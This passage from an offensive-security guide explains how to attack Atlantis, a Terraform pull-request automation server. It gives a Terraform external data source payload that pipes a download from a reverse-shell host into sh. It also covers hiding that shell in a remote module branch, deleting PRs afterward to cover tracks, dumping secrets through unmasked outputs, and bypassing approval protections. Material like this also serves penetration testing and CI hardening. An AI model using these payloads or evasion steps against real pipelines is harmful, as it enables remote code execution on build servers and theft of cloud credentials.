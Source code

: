 You can do this by making [**Atlantis load an external data source**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Just put a payload like the following in the `main.tf` file:

```json
data "external" "example" {
  program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```

#### Stealthier Attack

You can perform this attack even in a **stealthier way**, by following this suggestions:

* Instead of adding the rev shell directly into the terraform file, you can **load an external resource** that contains the rev shell:

```javascript
module "not_rev_shell" {
  source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```

You can find the rev shell code in [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* In the external resource, use the **ref** feature to hide the **terraform rev shell code in a branch** inside of the repo, something like: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **Instead** of creating a **PR to master** to trigger Atlantis, **create 2 branches** (test1 and test2) and create a **PR from one to the other**. When you have completed the attack, just **remove the PR and the branches**.

### Atlantis plan Secrets Dump

You can **dump secrets used by terraform** running `atlantis plan` (`terraform plan`) by putting something like this in the terraform file:

```json
output "dotoken" {
  value = nonsensitive(var.do_token)
}
```

### Atlantis apply RCE - Config modification in new PR

If you have write access over a repository you will be able to create a new branch on it and generate a PR. If you can **execute `atlantis apply` you will be able to RCE inside the Atlantis server**.

However, you will usually need to bypass some protections:

* **Mergeable**: If this protection is set in Atlantis, you can only run **`atlantis apply` if the PR is mergeable** (which means that the branch protection need to be bypassed).
  * Check potential [**branch protections bypasses**](broken-reference)****
* **Approved**: If this protection is set in Atlantis, some **other user must approve the PR** before you can run `atlantis apply`
  * By default you can abuse the [**Gitbot token to bypass this protection**](broken-reference)****
